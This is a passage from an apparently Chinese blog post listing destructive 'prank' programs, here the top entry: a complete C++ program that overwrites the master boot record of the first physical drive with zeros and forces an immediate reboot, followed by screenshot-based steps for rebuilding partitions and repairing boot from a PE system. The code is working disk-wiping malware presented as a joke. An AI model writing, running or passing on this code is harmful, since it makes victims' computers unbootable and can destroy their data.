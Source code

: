 ### 修复
没救了，建议重装系统😰。
## TOP 1：清除主引导记录
> 语言： C++
> 工具： Dev-cpp
> 危险系数：5.0
> 截图：![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/3f977395924e4ec9ae5c181179441977.png)
> 运行效果：
> ![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/81957dddfb554353b3e56d3b1dc0ce4f.png)
![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/bdd1a05130b24550a98aadb8d02fa63a.png)

挺简单的，如下：

```cpp
#include <stdio.h>
#include <iostream>
using namespace std;
int main(){
	// 读取物理硬盘
	FILE *disk=fopen("\\\\.\\PHYSICALDRIVE0","rb+");
	// 设定空的 mbr
	char mbr[512]={0};
	// 写入
	fwrite(mbr,sizeof(mbr),1,disk);
	// 重启
	system("shutdown /r /t 0");
	// 程序的完毕、电脑的消亡
	return 0;
}
```

### 修复
既然是 Top 1 ，必然修复是要麻烦些的~
![高木同学天下第一](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/5b69e42bbed74a0faf9850bd3dd3c315.png)


 （1） 打开一个PE系统，我们需要重新进行分区。这里我使用DG。![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/6607f2a773974475bd2fc1e3f0ae8bb8.png)
 （2）重新分区。点击“搜索分区”
![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/fdc4045f6eba44d2973fbe147ff5f01f.png)
（3）“整个磁盘”，然后开始，全部保留搜索到的分区。然后保存更改。
![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/74006c47029b4930ac320f18411e5ab4.png)
 （4）开始屏幕、程序、系统安装、第一项的程序。
 我们要开始修复引导了。![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/4ee8c880ceba45a6a6369bb3483efbc5.png)
（5）需要注意一下，这里需要修复的是当前PE下看到的原来系统分区的卷标。如图这里是`C:`。![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/e919b1ac3fb34bb396a244a46c64e7a6.png)
选择后面的【C:】（直接点击），开始修复。![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/1dbd28675e05411c821fe0630c56d43e.png)
![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/7659ff1e9bc145b4903493891c9f1d1b.png)
（6）退出程序，重启。
![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/70af0b54880443b9904e0ae2994659a0.png)
（7）完活儿。
![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/d017335f718946f3b910ce0a684feb48.png)


